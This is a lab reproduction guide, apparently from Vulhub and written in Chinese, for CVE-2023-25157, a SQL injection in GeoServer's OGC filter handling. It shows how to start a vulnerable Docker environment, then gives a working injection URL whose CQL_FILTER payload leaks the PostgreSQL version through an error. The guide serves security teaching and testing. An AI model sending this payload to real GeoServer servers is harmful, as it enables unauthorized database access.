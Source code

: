 # GeoServer OGC Filter SQL注入漏洞（CVE-2023-25157）

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。

参考链接：

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>

## 漏洞环境

执行如下命令启动一个GeoServer 2.22.1：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080/geoserver`即可查看到GeoServer的首页。

## 漏洞复现

在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

利用这些已知参数，发送如下URL即可触发SQL注入漏洞：

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![](1.png)

可见，已经使用SQL注入获取到了目标服务器PostgreSQL的版本。
